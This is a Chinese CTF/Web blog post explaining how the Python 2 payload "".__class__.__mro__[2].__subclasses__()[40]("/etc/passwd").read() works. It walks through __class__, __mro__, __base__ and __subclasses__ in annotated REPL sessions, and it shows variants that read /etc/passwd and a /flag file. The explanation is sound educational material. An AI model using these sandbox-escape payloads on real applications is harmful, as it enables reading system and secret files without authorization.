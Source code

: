 ```yaml
---
title: 关于python魔术方法payload："".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() 的解释
date: 2019-01-02 00:00:00
categories:
- CTF/Web
tags: python
---
```


## 总览

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

其实就是类似java的反射，通过一个对象找到另一个对象，这里通过一个字符串对象，找了一个文件对象，然后初始化，读取，就是这么个事。

```python

# 获得一个字符串实例
>>> ""
''

# 获得字符串的type实例
>>> "".__class__ 
<type 'str'>

# 获得其父类
>>> "".__class__.__mro__
(<type 'str'>, <type 'basestring'>, <type 'object'>)

# 获得父类中的object类
>>> "".__class__.__mro__[2] 
<type 'object'>

# 获得object类的子类，但发现这个__subclasses__属性是个方法
>>> "".__class__.__mro__[2].__subclasses__
<built-in method __subclasses__ of type object at 0x10376d320>

# 使用__subclasses__()方法，获得object类的子类
>>> "".__class__.__mro__[2].__subclasses__() 
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]

# 获得第40个子类的一个实例，即一个file实例
>>> "".__class__.__mro__[2].__subclasses__()[40] 
<type 'file'>

# 对file初始化
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd") 
<open file '/etc/passwd', mode 'r' at 0x10397a8a0>

# 使用file的read属性读取，但发现是个方法
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read
<built-in method read of file object at 0x10397a5d0>

# 使用read()方法读取
>>> "".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
nobody:*:-2:-2:Unprivileged 
User:/var/empty:/usr/bin/false
root:*:0:0:System 
Administrator:/var/root:/bin/sh

```

## 问题

### 问

但我怎么知道什么类有什么方法呢？比如我如何知道应该用```__mro__```属性去找父类？```__mro__```是什么类的成员方法？又比如我怎么知道```__subclasses__```()是一个方法，而不是一个直接可以返回数组的变量呢？

### 答

python中有一个内置函数是dir()，可以用这个函数来查看传入参数的成员方法以及属性，我们来尝试一下

```python
>>> dir("")
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
>>> dir("".__class__)
['__add__', '__class__', '__contains__', '__delattr__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getitem__', '__getnewargs__', '__getslice__', '__gt__', '__hash__', '__init__', '__le__', '__len__', '__lt__', '__mod__', '__mul__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__rmod__', '__rmul__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '_formatter_field_name_split', '_formatter_parser', 'capitalize', 'center', 'count', 'decode', 'encode', 'endswith', 'expandtabs', 'find', 'format', 'index', 'isalnum', 'isalpha', 'isdigit', 'islower', 'isspace', 'istitle', 'isupper', 'join', 'ljust', 'lower', 'lstrip', 'partition', 'replace', 'rfind', 'rindex', 'rjust', 'rpartition', 'rsplit', 'rstrip', 'split', 'splitlines', 'startswith', 'strip', 'swapcase', 'title', 'translate', 'upper', 'zfill']
```
首先我们看到```dir("")与dir("".__class__)```的结果是完全一样的

按照```"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()``` 的利用方法，接下来应该使用```__mro__```这个属性，来获得父类，但是我并没有在```dir("".__class__)```中看到这个属性，这是为什么呢？```__mro__```属性在哪呢？

## type与object

为了解释上面的这个问题，我们先要了解在python中的一个哲学问题，就是type与object的问题，这二位就像是哲学上的物质与意识，不仅相互关联，而且不可分割。

[Python 的 type 和 object 之间是怎么一种关系？](https://blog.csdn.net/piglite/article/details/78294112)

[python中的type和object详解](https://www.cnblogs.com/busui/p/7283137.html)

在Python的世界中：
- object是父子关系的顶端，所有的数据类型的父类都是它
- type是类型实例关系的顶端，所有对象都是它的实例的

也就是说这里不同于我们之前学到的类与对象的关系，这里有两条线，一个是类的关系，一个是实例的关系。也就是说：
- object和type都既是类又是实例
- object是type的一个实例
- type是object的子类

## ```__class__```与```__base__```属性

- ```__class__```属性可以沿着实例这条链往上走一个
- ```__base__```属性可以沿着父子类关系这个条链往上走一个

```python
>>> "".__class__
<type 'str'>
>>> "".__class__.__class__
<type 'type'>
>>> "".__class__.__class__.__base__
<type 'object'>
>>> "".__class__.__class__.__base__.__class__
<type 'type'>
>>> "".__class__.__class__.__base__.__class__.__base__
<type 'object'>
>>> "".__class__.__class__.__base__.__class__.__base__.__class__
<type 'type'>
```

可见之前的结论：object是type的一个实例， type是object的子类

```python
>>> "".__class__
<type 'str'>

>>> "".__base__
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'str' object has no attribute '__base__'

>>> "".__class__.__base__
<type 'basestring'>
```

我们可以看到""这个字符串对象中是没有```__base__```这个属性的，而```"".__class__```却可以获得，但是我们在前面的dir()函数中传入```""和"".__class__```所获得的结果是一样的啊，这两个都没有```__base__```属性，那么这个属性到底在哪呢？

### ```""```与```"".__class__```的区别

type()函数，用来返回变量的类型，返回的是一个type实例

```python
>>> ""
''
>>> "".__class__
<type 'str'>
>>> type("")
<type 'str'>
>>> type("".__class__)
<type 'type'>
```

我们可以看到字符串变量```""```是```<type 'str'>```的一个实例，而```<type 'str'>```是一个```<type 'type'>```实例，而其实```__base__```这个属性是在```<type 'type'>```中的属性。

## 真相

真相就在```<type 'type'>```中

```python
>>> "".__class__.__class__
<type 'type'>
>>> dir("".__class__.__class__)
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
>>> dir(type("".__class__))
['__abstractmethods__', '__base__', '__bases__', '__basicsize__', '__call__', '__class__', '__delattr__', '__dict__', '__dictoffset__', '__doc__', '__eq__', '__flags__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__instancecheck__', '__itemsize__', '__le__', '__lt__', '__module__', '__mro__', '__name__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasscheck__', '__subclasses__', '__subclasshook__', '__weakrefoffset__', 'mro']
```
猛然发现这个里有```__base__,__class__,__subclasses__,__mro__```，原来这些玩意都在这里啊，也就是说这几个属性，只要是type实例应该都有。

## 重看利用

```python
"".__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read()
```

1. 通过```"".__class__```获得一个```<type 'str'>```的实例
2. 因为```<type 'str'>```是```<type 'type'>```的一个实例，所以可用```<type 'type'>```的__mro__属性获得其父类的顶端```<type 'object'>```
3.  因为```<type 'object'>```是```<type 'type'>```的一个实例，所以可用```<type 'type'>```的```__subclasses__()```函数获得object的所有子类
4.  找到第40个子类是文件，然后初始化调用读取方法即可


## 非得用```__mro__```么

我们看到，我们无非是要找到```<type 'object'>```然后调用```__subclasses__()```函数，因为object是父类的顶端，也即是用```__base__```到顶，所以如下方式均可成功：

```python

>>> "".__class__.__base__.__base__.__subclasses__()[40]("/flag").read()
'63572fda-25fa-46bf-abae-94314f11a4a1\n'
>>> type("".__class__).__base__.__subclasses__()[40]("/flag").read()
'63572fda-25fa-46bf-abae-94314f11a4a1\n'
```
## 总结函数

- ```__base__```：子类找父类
- ```__subclasses__()```：父类找子类
- ```__class__```：子实例找父实例

看起来好像没有父实例找子实例的方法或者属性



